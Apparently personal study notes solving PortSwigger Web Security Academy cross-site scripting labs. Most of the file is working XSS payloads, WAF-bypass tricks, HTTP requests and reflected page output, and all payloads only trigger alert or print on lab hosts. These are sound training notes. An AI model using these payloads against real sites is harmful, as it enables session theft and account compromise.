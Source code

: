 # xss burp labs
https://portswigger.net/web-security/cross-site-scripting


#### Reflected XSS
https://portswigger.net/web-security/cross-site-scripting/reflected



# Exploiting cross-site scripting vulnerabilities - 3 labs
https://portswigger.net/web-security/cross-site-scripting/exploiting

<!-- Exploiting cross-site scripting to steal cookies -->
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies
// require burp colaborator - not solved


<!-- Exploiting cross-site scripting to capture passwords -->
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords
// require burp colaborator - not solved


<!-- Exploiting XSS to perform CSRF -->
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf
// not solved



# Cross-site scripting contexts - 15 labs
https://portswigger.net/web-security/cross-site-scripting/contexts


<!-- Lab: Reflected XSS into HTML context with nothing encoded -->
https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded

search field:
<script>alert(1)</script>

<!-- Lab: Stored XSS into HTML context with nothing encoded -->
https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded

test 1 - <script>alert(document.cookie)</script>


<!-- Lab: Reflected XSS into HTML context with most tags and attributes blocked -->
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked
1. try baseline xss:
    GET /?search=<script>alert(1)</script> HTTP/1.1
    response:
    "Tag is not allowed"

2. check if tag not blocked using portswigger cheatsheet tag list via intruder:
    GET /?search=§§ HTTP/1.1

    200 responses:
    GET /?search=<body> HTTP/1.1          //not blocked!


3. check event for blockage (using portswigger cheatsheet event list via intruder:):
    GET /?search=§§ HTTP/1.1

    200 responses:
        GET /?search=<body%20onresize=1> HTTP/1.1          //not blocked!


4. lets craft an html page with an iframe containig the search payload. the iframe also contains a command (executed on load) to resize its width - causing the payload to be fired:
    <iframe src="https://0ac8001d04a89eb9c0751d16007f0036.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>

POP!


<!-- Lab: Reflected XSS into HTML context with all tags blocked except custom ones -->
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked
1. try baseline xss:
<script>alert(1)</script>
tags blocked!

2. check if tag not blocked using portswigger cheatsheet tag list via intruder:
all known tags are bloced

3. check custom tags sing portswigger cheatsheet tag list via intruder:
all custom tags are not blocked

lets look for a payload from custom tags:
<xss id=x tabindex=1 onfocus=alert(1)></xss>

we will put it in a link to the search term and add hash call ("#") for the tag "x":

<script>
location = 'https://0a310080041f2ce7c0c165c1004c0044.web-security-academy.net/?search=<xss id=x tabindex=1 onfocus=alert(1)></xss>#x';
</script>

explanation:
location =                                                                      // JS command elling browser to go to a 
'https://0a310080041f2ce7c0c165c1004c0044.web-security-academy.net/?search=     // exploitable URL and inject
<xss id=x tabindex=1 onfocus=alert(1)></xss>                                    // payload utilizing custom tag (to bypass waf)
#x                                                                              // and fire it up with hash (correspondes with id=x and uses tabindex to autofocus the element)

see: 
https://portswigger.net/research/one-xss-cheatsheet-to-rule-them-all



<!-- Lab: Reflected XSS with event handlers and href attributes blocked -->
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked

label your vector with the word "Click":
<a href="">Click me</a>

1. try baseline xss:
<script>alert(1)</script>
"Tag is not allowed" 400

2. check if tag not blocked using portswigger cheatsheet tag list via intruder:
GET /?search=§§ HTTP/1.1

200 responses:
GET /?search=<a> HTTP/1.1
GET /?search=<animate> HTTP/1.1
GET /?search=<image> HTTP/1.1
GET /?search=<svg> HTTP/1.1
GET /?search=<title> HTTP/1.1

3. try adoptaion of last payload with <a> tag
<a id=x tabindex=1\000onfocus=alert(1)>Click me</a>
"Event is not allowed" 400

4. check event types for blockage (using portswigger cheatsheet event list via intruder:):
all event in the cheetlist are blocked by waf

5. look for eventless payload - using find on the cheetsheet for animate we get:
<svg x=">" onload=alert(1)> 

breakdown:
//    1. the ">" makes WAF thinks its the end of the tag so he doesnt block the onload event handler. 
//    2. why it works also without the "click" string - IDK

POP!

original Polyglot XSS payload:
-->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
by @s0md3v from:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#polyglot-xss


portswiggers payload (requiers user interaction)
<svg><a><animate attributeName=href values=javascript:alert(2) /><text x=20 y=20>Click me</text></a>

    <!-- breakdown:
    <svg>   // whitelisted tag 
        <a>     // whitelisted tag ??? why need 2 tags?
            <animate attributeName=href values=javascript:alert(1) />
            <text x=20 y=20>Click me</text>
    </a> -->

==

<!-- Lab: Reflected XSS with some SVG markup allowed -->
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed

<svg x=">" onload=alert(1)> 

<!-- Lab: Reflected XSS into attribute with angle brackets HTML-encoded -->
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded
<script>alert(1)</script>
reflects twice on page:
1. inside a header:
    <h1>0 search results for ''&gt;&lt;script&gt;alert(1)&lt;/script&gt;'o'</h1>
2. in the search bar:
    <input type="text" placeholder="Search the blog..." name="search" value="<script>alert(1)</script>">

the <h1> tag escape tries fails so going to <input> tag and changing to event handler payload:
    " autofocus onfocus=alert(document.domain) x="
reflected as:
    <input type="text" placeholder="Search the blog..." name="search" value="" autofocus="" onfocus="alert(document.domain)" x="">
POP!



<!-- Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded -->
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded


To solve this lab, submit a comment that calls the alert function when the comment author name is clicked. 

1 try:
POST /post/comment HTTP/1.1

csrf=zldcOMiQQXjD7RtgPjTfwZEypoHRh2KP&postId=4&comment=walla%3F&name=hacker&email=clean%40token.com&website=test.com

response:
<p><img src="/resources/images/avatarDefault.svg" class="avatar"><a id="author" href="website=test.com">hacker</a> | 03 July 2022</p>

change href attribute value from "website=test.com" to "javascript:alert()" and resend via repeater

now we get clickble link that preform XSS POC

POP!

<!-- Lab: Reflected XSS in canonical link tag -->
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag

for canonical manipultion lets try adding arbitary paramaeter to the URL:
    ?test
full path: 
    https://0a4100be0430aa3bc0926f20007d0094.web-security-academy.net/?test

reflect:
    <head>
    ..
        <link rel="canonical" href='https://0a4100be0430aa3bc0926f20007d0094.web-security-academy.net/?test'/>
    ..
    </head>

lets change "?test" with payload:
    ?'accesskey='x'onclick='alert(1)


payload breakdown:
    ?                   // param
    '                   //breaks out of href field - wired since in js it uses ". maybe php back server uses ' ?
    accesskey='x'       // define shortcut key "x"  
    onclick='alert(1)   // when accessed via "x" key preform this action 

    // **access key to be accessed by ALT+SHIF+"x" in firefox.(in chrome/IE/safari/Opera15+ its just ALT+"X")


full path:
    https://0acb007104d7d0f9c07124ee00810023.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)


reflection:
    <head>
    ..
        <link rel="canonical" href="https://0acb007104d7d0f9c07124ee00810023.web-security-academy.net/?" accesskey="x" onclick="alert(1)">
    
    <!-- no need for user interaction if we just use autofocus onfocus?
    ?'autofocus+onfocus%3dalert()
    full path
    https://0a4100be0430aa3bc0926f20007d0094.web-security-academy.net/?'autofocus+onfocus%3dalert()

    ?tabindex=1+id=x+onfocus%3dalert(3) -->


<!-- Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped -->
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped

hint:
</script><img src=1 onerror=alert(document.domain)>

test - search for test and look for reflections:
GET /?search=test HTTP/1.1

reflection:
    <script>
        var searchTerms = 'test';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

payload to escape the code:
</script><img src=1 onerror=alert(document.domain)>

reflection:
    <script>
        var searchTerms = '\'</script><img src=1 onerror=alert(document.domain)>';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>



POP!

<!-- Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded -->
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded

hints:
    '-alert(document.domain)-'
    ';alert(document.domain)//


test - search for test and look for reflections:
GET /?search=test HTTP/1.1

reflection:
    <script>
        var searchTerms = 'test';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

trying prevoius payload:
'</script><img src=1 onerror=alert(document.domain)>

reflection:
                   <script>
                        var searchTerms = ''&lt;/script&gt;&lt;img src=1 onerror=alert(document.domain)&gt;';
                        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
                    </script>

payloads (since we already inside script) - both works:
';alert(document.domain)//
'-alert(document.domain)-'

reflections:
    <script>
        var searchTerms = '';alert(document.domain)//';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>
    <script>
        var searchTerms = ''-alert(document.domain)-'';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

POP!

<!-- Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped -->
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped

test last payload:
    GET /?search=';alert(document.domain)//  HTTP/1.1

reflection
    <script>
        var searchTerms = '\';alert(document.domain)//';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

' is escaped

use double escape ' to breakout:
    GET /?search=\';alert(document.domain)// HTTP/1.1

reflection:
    <script>
        var searchTerms = '\\';alert(document.domain)//';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

payload:
    \';alert(document.domain)//


<!-- Lab: Reflected XSS in a JavaScript URL with some characters blocked -->
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked

hint:
    onerror=alert;throw 1

test:
POST /post/comment HTTP/1.1

csrf=L51ljiFGeK4JW8fE59ZWWdebbnezsNCc&postId=3&comment=test&name=test&email=clean%40token.com&website=https:test.

reflection
    <p>
    <img src="/resources/images/avatarDefault.svg" class="avatar"><a id="author" href="http://test.">test</a> | 03 July 2022
    </p>

check1:
    https://'<script>alert()</script>

reflection:
    <a id="author" href="https://&apos;&lt;script&gt;alert()&lt;/script&gt;">test</a>

check2:
https://"+onerror=alert;throw+1337

<a id="author" href="https://&quot; onerror=alert;throw 1337">test</a>

https://0a1800cb03087020c0b574f400240037.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27


port solution:
'},x=x=>{throw/**/onerror=alert,1337},toString=x,window%2b'',{x:'

???


<!-- Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped -->
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped

try:
    http://alert')
reflection:
    <a id="author" href="http://alert\')" onclick="var tracker={track(){}};tracker.track('http://alert\')');">

try:
    http://alert\')
reflection:
    <a id="author" href="http://alert\')" onclick="var tracker={track(){}};tracker.track('http://alert\\\');">
learned: \ and ' are escaped

try (aubstitues to '):
    '%27\x27&#39;&apos;
reflect:
    <a id="author" href="http://\'\'\\x27&#39;&apos;" onclick="var tracker={track(){}};tracker.track('http://\'\'\\x27&#39;&apos;');">
learned: hex escape (\x00) and octa escape(\00)) are useless here


try (HtmlEnc --> UrlEnc):
    http://&apos;&#37;&#50;&#55;&#92;&#120;&#50;&#55;&amp;&#35;&#51;&#57;&#59;&amp;&#97;&#112;&#111;&#115;&#59;alert")
        http://%26apos%3b%26%2337%3b%26%2350%3b%26%2355%3b%26%2392%3b%26%23120%3b%26%2350%3b%26%2355%3b%26amp%3b%26%2335%3b%26%2351%3b%26%2357%3b%26%2359%3b%26amp%3b%26%2397%3b%26%23112%3b%26%23111%3b%26%23115%3b%26%2359;alert")
reflect:
 <a id="author" href="http://&apos;&#37;&#50;&#55;&#92;&#120;&#50;&#55;&amp;&#35;&#51;&#57;&#59;&amp;&#97;&#112;&#111;&#115;&#59;alert&quot;)" onclick="var tracker={track(){}};tracker.track('http://&apos;&#37;&#50;&#55;&#92;&#120;&#50;&#55;&amp;&#35;&#51;&#57;&#59;&amp;&#97;&#112;&#111;&#115;&#59;alert&quot;)');">

browser do URL decode but not HTML decode


" http://alert "
' http://alert '
are they different? '/" ?

try:
    http://alert")
reflect:
<a id="author" href="http://alert&quot;)" onclick="var tracker={track(){}};tracker.track('http://alert&quot;)');">

try:
    "%22\x22&#34;&quot;
reflect:
    <a id="author" href="http://&quot;&quot;\\x22&#34;&quot;tpalert&quot;)" onclick="var tracker={track(){}};tracker.track('http://&quot;&quot;\\x22&#34;&quot;tpalert&quot;)');">


try (aubstitues to '):
    http://'%27%26#39;%26apos;alert()
try (urlencoded X1)
'%2527%26%2339%3b%26apos%3balert

reflect:
    <a id="author" href="http://\'%27%26#39;%26apos;alert()" onclick="var tracker={track(){}};tracker.track('http://\'%27%26#39;%26apos;alert()');">

try (urlencode X2):
http%3a//'%2527%2526%2339%3b%2526apos%3balert()
    <a id="author" href="http://\'%27%26#39;%26apos;alert()" onclick="var tracker={track(){}};tracker.track('http://\'%27%26#39;%26apos;alert()');">


try:
https://0a1c00a404fd51e9c1e76ff900ec007f.web-security-academy.net/%26#39;'--%0d%0a;alert(document.domain)//
ref:
https://0a1c00a404fd51e9c1e76ff900ec007f.web-security-academy.net/'/'--!%3E;alert(document.domain)//



post solutions:
http://foo?&apos;-alert(1)-&apos;

?? do you send it as is or do you url encode the & ?




<!-- Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped -->
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped

hint:
    ${alert(document.domain)}

try:
test`\
ref:
    <script>
        var message = `0 search results for 'test\u0060\u005c'`;
        document.getElementById('searchMessage').innerText = message;
    </script>

payload:
${alert(document.domain)} 



$) // just to close previous topic


# AngularJS sandbox
https://portswigger.net/web-security/cross-site-scripting/contexts/angularjs-sandbox


<!-- Lab: Reflected XSS with AngularJS sandbox escape without strings -->

<script>angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
    $scope.query = {};
    var key = 'search';
    $scope.query[key] = 'test';
    $scope.value = $parse(key)($scope.query);
});</script>










<!-- 


% <!-- failed attempts3:
% found this field - it might reflect on canonical href link in header:
% <input required type="hidden" name="postId" value="1">

% reflection:

% HTTP/1.1 200 OK
% Content-Type: text/html; charset=utf-8
% Connection: close
% Content-Length: 9037

% <!DOCTYPE html>
% <html>
%     <head>
%         <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
%         <link href=/resources/css/labsBlog.css rel=stylesheet>
%         <link rel="canonical" href='https://0acb007104d7d0f9c07124ee00810023.web-security-academy.net/post?postId=1'/>
%         <title>


% reflection:
% <p><img src="/resources/images/avatarDefault.svg" class="avatar"><a id="author" href="http://test.com" rel="canonical">test</a> | 03 July 2022</p>






% <link rel="canonical" href='https://0acb007104d7d0f9c07124ee00810023.web-security-academy.net/post?postId=3'/>

% <button accesskey="h" title="Caption" id="btn1">Hover me</button> -->



 <!-- 
% <!-- unsuccessful tries2
% input:
% name: injectable_input
% reflection:
% <p><img src="/resources/images/avatarDefault.svg" class="avatar">injectable_input | 03 July 2022</p>

% 1st try the hint:
% <a href="javascript:alert(document.domain)">click me</a>
% reflected as: 
% <p><img src="/resources/images/avatarDefault.svg" class="avatar">&lt;a href="javascript:alert(document.domain)"&gt;click me&lt;/a&gt; | 03 July 2022</p>

% lets escape from <img> tag first:
% <a href="javascript:alert()">click</a>





% <a href=javascript:alert(2) /><text x=20 y=20>Click</text></a>



% svg><a><animate attributeName=href values=javascript:alert(2) /><text x=20 y=20>Click me</text></a>

% <input type="button" value="Login" onClick="pasuser(<parameters>)">

% <section class="comment">
%     <p><img src="/resources/images/avatarDefault.svg" class="avatar">name | date</p>
%     <p>comment</p>
% </section> -->




<!-- unsuccessful tries:
% <a id=x tabindex=1&#x26;#x20;onfocus=alert(1)>Click me</a>
% <a id=x tabindex=1 (o\u006focus)=alert(1)>Click me</a>
% <a (o\u006cliCk)=alert()


% " " (space):
% &#x20;      //hex
% &#32;       //numeric

% %u0020

% "&" (ampersand):
% &#x26;      //html hex
% &#38;       //html numeric


% "o"
% &#111; //HTML encode numeric - browser decode relection
% &#x6f; //HTML encode hex - - browser decode relection
% %6f // URL encode
% %u006f // URL encode unicode
% \u006f // unicode escaping
% \x6f //HEX escaping
% \ --> -->

